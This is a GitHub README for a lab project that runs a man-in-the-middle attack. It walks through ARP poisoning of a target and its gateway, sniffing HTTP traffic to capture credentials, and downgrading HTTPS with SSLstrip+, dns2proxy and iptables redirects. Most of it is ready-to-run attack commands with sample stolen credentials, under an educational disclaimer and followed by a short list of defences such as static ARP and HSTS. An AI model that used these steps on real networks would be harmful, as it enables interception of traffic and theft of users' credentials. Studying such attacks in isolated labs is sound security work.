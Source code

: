  
---

# **MITM Attack Using ARP Poisoning & Packet Sniffing**  

## **📌 Overview**  
This project demonstrates a **Man-in-the-Middle (MITM) attack** using:  
- **ARP Poisoning**: Redirects network traffic through the attacker's machine.  
- **Packet Sniffing**: Captures and analyzes intercepted HTTP traffic.  

⚠️ **Disclaimer:** This project is for **educational purposes only**. Do not use it on unauthorized networks.  

---

## **🛠️ Setup & Installation**  

### **1️⃣ Install Dependencies**  
Ensure you have Python and Scapy installed:  
```bash
sudo apt update
sudo apt install python3-pip
pip3 install scapy
```

### **2️⃣ Network Configuration**  
- Use **VirtualBox NAT Network** to connect both machines.  
- The target machine should have **internet access**.  

To check IP addresses:  
```bash
ip a
```

---

## **🚀 Running the Attack**  

### **1️⃣ Start ARP Poisoning**  
Replace `TARGET_IP` with the victim’s IP and `GATEWAY_IP` with the router's IP:  
```bash
sudo python3 arp_poisoning.py -t TARGET_IP -p GATEWAY_IP
```

This tricks the victim into sending traffic through the attacker’s machine.  

---

### **2️⃣ Start Packet Sniffing**  
Find your network interface (`ifconfig` or `ip a`), then start sniffing:  
```bash
sudo python3 packet_sniffer.py
```

This captures **HTTP requests** and extracts potential sensitive data.  

---

## **🔄 Running Both Scripts Together**  
You can run both scripts simultaneously using:  
```bash
sudo python3 arp_poisoning.py -t TARGET_IP -p GATEWAY_IP &  
sudo python3 packet_sniffer.py  
```

- The `&` runs **ARP Poisoning in the background**.  
- The **sniffer runs in the foreground**, showing captured packets.  

---

## **📌 Expected Results**  
If successful:  
✅ The victim’s internet **slows down or stops working**.  
✅ The attacker sees **captured HTTP data** (e.g., credentials).  

🔹 **Example Output** from Packet Sniffer:  
```
b'username=admin&password=123456'
```

---

## **🔐 Sniffing HTTPS Traffic (Bypassing HTTPS Security)**  
Since most websites use **HTTPS**, normal packet sniffing will not capture useful data. To intercept encrypted traffic, use **SSLstrip+ and dns2proxy**.

### **1️⃣ Install SSLstrip+ and dns2proxy**  
```bash
git clone https://github.com/LeonardoNve/dns2proxy.git
git clone https://github.com/moxie0/sslstrip.git
cd sslstrip
sudo python3 setup.py install
```

### **2️⃣ Enable IP Forwarding & Redirect Traffic**  
```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080
```

### **3️⃣ Run dns2proxy**  
```bash
cd dns2proxy
sudo python3 dns2proxy.py
```

### **4️⃣ Run SSLstrip+**  
```bash
sudo sslstrip -l 8080
```

Now, encrypted HTTPS traffic will be downgraded to HTTP, allowing **MITM attacks** to capture sensitive data.  

---

## **🛑 Stopping the Attack**  
Press `CTRL+C` to stop both scripts. The ARP table will automatically reset.  

To disable IP forwarding:  
```bash
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
```

To clear iptables rules:  
```bash
sudo iptables --flush
```

---

## **🛡️ How to Protect Against ARP Spoofing?**  
- Use **static ARP tables** (`arp -s <IP> <MAC>`).  
- Enable **ARP Spoofing Protection** in your firewall.  
- Always use **HTTPS** instead of HTTP.  
- Implement **HSTS (HTTP Strict Transport Security)** to prevent SSLstrip attacks.  

---

## **📎 Notes**  
- This method **only works on HTTP traffic** (not HTTPS) unless SSLstrip+ is used.  
- The **MITM attack will disrupt** the victim’s internet connection.  
- If the **victim's internet completely stops**, lower the attack rate by adding a `time.sleep(5)` in `arp_poisoning.py`.  

---

## **👨‍💻 Author**  
Developed by **Ahmet Önal** for educational cybersecurity research.  

🚀 **Ethical hacking is a responsibility. Use wisely!**  

---

